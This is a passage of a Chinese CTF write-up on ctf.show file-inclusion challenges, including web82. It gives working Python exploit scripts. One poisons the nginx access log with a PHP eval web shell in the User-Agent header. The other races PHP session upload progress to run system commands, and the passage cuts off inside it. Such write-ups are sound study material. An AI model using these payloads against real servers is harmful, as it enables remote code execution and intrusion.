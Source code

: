 ```py
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/2/20 19:51
# blog: www.wlhhlc.top
import requests

url = "http://58d8bbb1-203f-4fb4-bdcd-ea7a66d94fbc.challenge.ctf.show/" + "?file=/var/log/nginx/access.log"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0<?php @eval($_POST[1]);?>'
}
data = {
    '1': 'system("cat fl0g.php");'
}
req = requests.get(url=url, headers=headers)
result = requests.post(url=url, data=data)
print(result.text)
```

运行得到flag

### web82

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

利用条件竞争脚本

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/2/20 23:51
# blog: www.wlhhlc.top
import io
import requests
import threading
url = 'http://453228ae-28f2-4bb0-b401-83514feae8df.chall.ctf.show:8080/'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac f*");?>xl'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('xl.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'xl' in response.text:
            print(response.text)
            break
        else:
```